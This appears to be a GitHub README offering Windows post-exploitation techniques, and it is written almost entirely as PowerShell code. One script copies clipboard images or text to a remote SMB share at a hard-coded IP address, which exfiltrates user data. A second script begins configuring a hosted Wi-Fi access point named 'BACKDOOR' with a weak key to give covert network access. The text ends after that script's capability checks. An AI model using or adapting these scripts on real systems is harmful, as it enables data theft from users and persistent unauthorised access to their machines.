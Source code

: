 # Windows-Trix
An assortment of techniques that can be used to exploit Windows.  These are uncommon exploits that are not often used.  Most of these assume that you have or can attain administrator or system privileges on the endpoint.  You will need to change IP addresses and other references in the examples to fit your environment.

## >> Copying data from the clipboard using powershell

```powershell
Add-Type -AssemblyName System.Windows.Forms

if($([System.Windows.Forms.Clipboard]::ContainsImage()))
{
   $cb = [System.Windows.Forms.Clipboard]::GetImage()
   $file = '\\10.192.103.49\smbdata\clipboard.png'
   $cb.Save($file, [System.Drawing.Imaging.ImageFormat]::Png)
}
else
{
   if($([System.Windows.Forms.Clipboard]::ContainsText()))
   {
      $cb = [System.Windows.Forms.Clipboard]::GetText()
      $file = '\\10.192.103.49\smbdata\clipboard.txt'
      $cb > $file
   }
   else
   {
      Write-Output "Nothing in clipboard to save."
   }
}
```

## >> Configuring a backdoor hotspot using powershell

**Activation script** `wifi-start.ps1`<br />
```powershell
regsvr32 /s hnetcfg.dll
sc start SharedAccess | Out-Null

$ssid = "BACKDOOR"
$wpsk = "1234567890"

$hsup = netsh wlan show drivers | Select-String "Hosted network supported" | Select-String "Yes"
if(!$hsup)
{
   Write-Host "Wireless host mode not supported."
   Exit
}
$huse = netsh wlan show interfaces | Select-String "Hosted network status" | Select-String ": Started"
if($huse)
{
   Write-Host "Wireless host mode already in use."
   Exit
}
$wuse = netsh wlan show interfaces | Select-String "State" | Select-String "disconnected"
if(!$wuse)
{
   Write-Host "Wireless interface already in use."
   Exit
}
```